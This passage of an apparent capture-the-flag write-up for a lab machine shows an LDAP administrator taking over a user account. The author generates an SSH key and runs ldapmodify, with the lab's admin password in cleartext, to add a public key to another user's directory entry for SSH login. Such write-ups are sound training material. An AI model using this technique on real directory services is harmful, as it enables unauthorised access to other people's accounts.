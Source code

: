 ```bash
homeDirectory: /home/lynik
givenName: Lynik
gidNumber: 5000
sn: Schmidt
cn: Lynik Schmidt
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
loginShell: /bin/bash
[...]
```

Seems like our user is the LDAP-administrator. There are a couple of identical users, however I am going to use the  `lynik` user. This user currently has the `uidNumber` of 5000 and the gidNumber of `5000`.  After a bit of research I found that it is possible to add SSH-keys to LDAP user and use that key to login via SSH then. As we are the LDAP-admin, this gives us an easy way to login as any LDAP user.

#### Overwriting SSH-Pub in LDAP

Let us generate an ssh-key for lynik, which we will add to his profile.

```bash
ssh-keygen -f lynik.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in lynik.key
Your public key has been saved in lynik.key.pub
The key fingerprint is:
SHA256:hfZ7yFl0EFbyZNlGB+1Ev0sZ4uA6qVUAeMMqiUdJ1gs root@darkness
The key's randomart image is:
+---[RSA 3072]----+
|  .oo o.    =o=B+|
|  .E o +.. . *. B|
|  o o + +.....o=.|
| . + o . oo.o.. =|
|  . .   S .o.. + |
|         .+=  . .|
|         == .  . |
|        o ..     |
|       .         |
+----[SHA256]-----+
```

Next let us update the LDAP user's sshPublicKey attribute.

```bash
lynik-admin@travel:~$ ldapmodify -h ldap.travel.htb -D cn=lynik-admin,dc=travel,dc=htb -w Theroadlesstraveled
dn: uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: ssh-rsa AAAAB[...]DTCuPc=

modifying entry "uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb"
```
